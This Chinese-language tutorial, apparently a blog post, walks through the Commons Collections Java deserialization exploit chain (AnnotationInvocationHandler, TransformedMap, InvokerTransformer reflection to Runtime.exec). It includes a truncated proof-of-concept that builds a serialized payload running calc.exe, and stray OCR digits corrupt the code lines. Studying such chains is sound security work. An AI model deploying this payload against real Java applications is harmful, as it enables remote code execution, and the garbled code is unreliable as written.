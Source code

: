 
于是，我们找到了这个类：**AnnotationInvocationHandler** ，这个类有一个成员变量 `memberValues` 是`Map<String,Object>`类型，并且在重写的 readObject() 方法中有 memberValue.setValue() 修改Value的操作。简直是完美！



于是我们可以实例化一个AnnotationInvocationHandler类，将其成员变量memberValues赋值为精心构造的恶意TransformedMap对象。然后将其序列化，提交给未做安全检查的Java应用。Java应用在进行反序列化操作时，执行了readObject()函数，修改了Map的Value，则会触发TransformedMap的变换函数transform()，再通过反射链调用了Runtime.getRuntime.exec("XXX") 命令，最终就可以执行我们的任意代码了，一切是那么的天衣无缝！ 



反序列化漏洞payload

-------------



*   反序列化时会执行对象的readObject()方法

*   Runtime.getRuntime.exec(“xx”)可以执行系统命令

*   InvokerTransformer的transform()方法可以通过反射链调用Runtime.getRuntime.exec(“xx”)函数来执行系统命令

*   TransformedMap类的decorate方法用来实例化一个TransformedMap对象，即public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) ，第二个和第三个参数传入一个Transformer，当key值和Value值改变时，会调用Transformer的transformer()方法。于是我们可以将第三个参数传入 InvokerTransformer



**Payload构造思路：**我们构造恶意的类：AnnotationInvocationHandler，将该类的成员变量memberValues赋值为我们精心构造的TransformedMap对象，并将AnnotationInvocationHandler类进行序列化，然后交给JAVA WEB应用进行反序列化。再进行反序列化时，会执行readObject()方法，该方法会对成员变量TransformedMap的Value值进行修改，该修改触发了TransformedMap实例化时传入的参数InvokerTransformer的transform()方法，InvokerTransformer.transform()方法通过反射链调用Runtime.getRuntime.exec(“xx”)函数来执行系统命令



![](https://img-blog.csdnimg.cn/20181219195606367.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



如下代码，我们通过构造恶意的类AnnotationInvocationHandler并将其序列化保存在 payload.bin文件中，只要将它给存在反序列化漏洞的JAVA WEB 应用进行反序列化就能执行我们的命令了。



```
import java.io.FileInputStream;      
import java.io.FileOutputStream;      
import java.io.IOException;      
import java.io.ObjectInputStream;      
import java.io.ObjectOutputStream;      
import java.lang.annotation.Target;      
import java.lang.reflect.Constructor;      
import java.util.HashMap;      
import java.util.Map;      1
import java.util.Map.Entry;       1
import org.apache.commons.collections.Transformer;      1
import org.apache.commons.collections.functors.ChainedTransformer;      1
import org.apache.commons.collections.functors.ConstantTransformer;      1
import org.apache.commons.collections.functors.InvokerTransformer;      1
import org.apache.commons.collections.map.TransformedMap;       1
public class main2 {      1
	public static void main(String[] args) throws Exception{      2
		Transformer[] transformers = new Transformer[] {      2
				new ConstantTransformer(Runtime.class),      2
				new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),      2
				new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),      2
				new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};       2
		Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链       2
		Map innerMap = new HashMap();   //实例化一个Map对象      2
		innerMap.put("value", "value");       3
```
